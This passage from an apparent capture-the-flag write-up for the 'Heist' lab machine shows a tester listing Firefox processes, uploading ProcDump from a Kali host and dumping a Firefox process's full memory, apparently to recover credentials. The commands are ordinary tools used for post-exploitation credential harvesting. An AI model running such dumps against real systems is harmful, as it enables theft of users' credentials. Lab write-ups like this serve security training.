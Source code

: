 Suspiciously high number of Firefox processes.

```bash
ps | findstr firefox
```

![](screenshots/chase_ps_firefox.png)

### 6.2 Dumping Firefox Process

Upload Sysinternals ProcDump:

```bash
upload /home/kali/Documents/Machines/Heist/content/procdump64.exe
```

![](screenshots/chase_upload_procdump64.png)

Dump Firefox process:

```bash
.\procdump64.exe -accepteula -ma 6356
```

![](screenshots/chase_execute_procdump64.png)
